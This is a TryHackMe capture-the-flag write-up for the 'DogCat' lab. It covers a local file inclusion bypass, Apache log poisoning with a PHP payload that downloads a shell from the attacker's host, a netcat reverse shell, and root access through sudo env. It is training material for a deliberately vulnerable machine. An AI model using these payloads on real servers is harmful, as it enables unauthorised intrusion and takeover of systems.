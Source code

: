 ```yaml
---
title: TryHackMe - DogCat Writeup
description: My writeup on dogcat box.
categories:
 - tryhackme
tags: tryhackme, LFI
---
```


A pretty good box.

You can find the machine there > [DogCat](https://tryhackme.com/room/dogcat){:target="_blank"}

As always let's start with a nmap scan.

```
$ ip=10.10.113.171
$ nmap -sC -sV -oN initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-11 17:07 EEST
Nmap scan report for 10.10.113.171 (10.10.113.171)
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we visit the webpage gives us 2 buttons and ask `What would you like to see?`, if we press `dog` for example we can see this on URL :

`http://10.10.113.171/?view=dog`

Let's try LFI :

`http://10.10.113.171/?view=../../../etc/passwd` Gives us this error -> `Sorry, only dogs or cats are allowed.`

Let's try to add dog string before our LFI string :

`http://10.10.113.171/?view=dog../../../etc/passwd` Now we take this error -> `Warning: include(dog../../../etc/passwd.php` seems like it adds extension `.php` everytime, we can try to read the `index.php` since if we try `index` will auto add the `.php`.

In LFI we can't read .php files. That is because they get executed by the webserver, we can bypass this using `php filter`.

`http://10.10.113.171/?view=php://filter/convert.base64-encode/resource=dog../../index` Gives us a base64 string, let's decode it.

```
$ echo PCFET0NUWV..data..ZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg== | base64 -d
```

We can now read the `index.php` source code.

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
?>
```

Let's analyze it. The most important thing in this code is this : 

```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
```

I'll try to explain it, i don't code php, but i can understand php.

`isset()` function checks if a variable is set, now the critical part comes the `?` & `:` in php called ternary operator. Allows us to simplify complex conditions into one line statements.

So if the condition `isset($_GET["ext"])` is true will return `$_GET["ext"]` else will add the `.php`. So we just have to add `ext` parameter in the URL to read files.

```
$ curl -X GET "http://10.10.113.171/?view=dog../../../../../etc/passwd&ext"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Great, now we can do LFI -> RCE by doing log poisoning. To do that we need to be able to read log files.

`http://10.10.113.171/?view=dog../../../../../var/log/apache2/access.log&ext` Bingo! Now we can do a php trick to upload our shell, if we do `<?php passthru($_GET['cmd']); ?>` we will have to wget/curl the shell, we can save our time using this trick :

```
$ nc $ip 80
GET /<?php file_put_contents('shell.php', file_get_contents('http://$your_ip/shell.php')) ?>
```

Now we have to visit the `access.log` file to activate it.

`http://10.10.174.184/?view=dog../../../../../var/log/apache2/access.log&ext`

Let's run our shell now.

`http://10.10.174.184/shell.php`

```
$ nc -lvp 6666
listening on [any] 6666 ...
$ whoami
www-data
```

Privesc is pretty easy now, let's check `sudo -l`.

```
$ sudo -l
Matching Defaults entries for www-data on f8a6b465eadb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on f8a6b465eadb:
    (root) NOPASSWD: /usr/bin/env
```

We can run `env` as root. We can simply exploit this by doing :

```
$ sudo env bash
whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

This one was a good one. See you!
